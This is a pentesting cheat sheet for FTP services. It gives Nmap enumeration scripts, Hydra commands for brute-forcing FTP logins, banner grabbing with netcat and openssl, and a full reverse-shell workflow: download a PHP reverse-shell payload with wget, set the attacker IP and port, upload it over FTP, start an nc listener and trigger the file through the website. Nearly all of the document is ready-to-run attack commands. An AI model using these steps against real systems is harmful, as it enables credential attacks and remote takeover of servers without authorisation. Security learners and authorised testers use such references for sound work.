 ```yaml
---
title: File Transfer Protocol (FTP) Pentesting
desc: Default port is 21.
tags: [20, 21, FTP, Hydra, Netcat, Network, Nmap, Web]
alts: [Reverse-Shell]
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ftp-anon -p 21 <target-ip>
    nmap --script ftp-vuln* -p 21 <target-ip>
    nmap --script ftp-* -p 21 <target-ip>
    ```

2. **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> ftp
    hydra -L username.txt -p password <target-ip> ftp

    hydra -l username -P passwords.txt ftp://<target-ip>
    hydra -L usernames.txt -p password ftp://<target-ip>
    ```

<br />

## Investigation

1. **Banner Grabbing**

    ```sh
    nc <target-ip> 21
    ```

    - **Use OpenSSL**

        First off, open listener.

        ```sh
        nc -vn <target-ip> 21
        ```

        Then run the command below.

        ```sh
        openssl s_client -connect <target-ip>:21 -starttls ftp
        ```

<br />

## Connect FTP

```sh
ftp username@10.0.0.1
```

Sometimes you might be able to the **anonymous** login.  
Not likely, but worth a try.

```
ftp 10.0.0.1 
username: anonymous
password: anonymous
```

<br />

## Search Files in FTP

1. **Basic Investigation**

    If you can connect FTP, search directories and files, then download them to your local machine.

    ```sh
    ftp> ls

    # Transfer files to the local machine.
    ftp> get sample.txt
    ```

<br />

## Reverse Shell over FTP

If the target website allows users to access the ftp directory, you can upload the exploit for the reverse shell and get a shell.  

1. **Download the Payload**

    Get the payload for the reverse shell from [this repository](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"}.

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit some variables
    $ip = '<your-local-ip>';
    $port = 1234;
    ```

2. **Upload the Payload to FTP Directory**

    Connect to FTP and upload.

    ```sh
    ftp username@<target-ip>

    # Upload the payload you downloaded
    ftp > put shell.php
    ```

3. **Get a Shell**

    At first, you need to open listener in your local machine.

    ```sh
    nc -lvnp 1234
    ```

    In a web browser, access to "http://vulnerable.com/path/to/ftp/shell.php".  
    You should get a target shell.
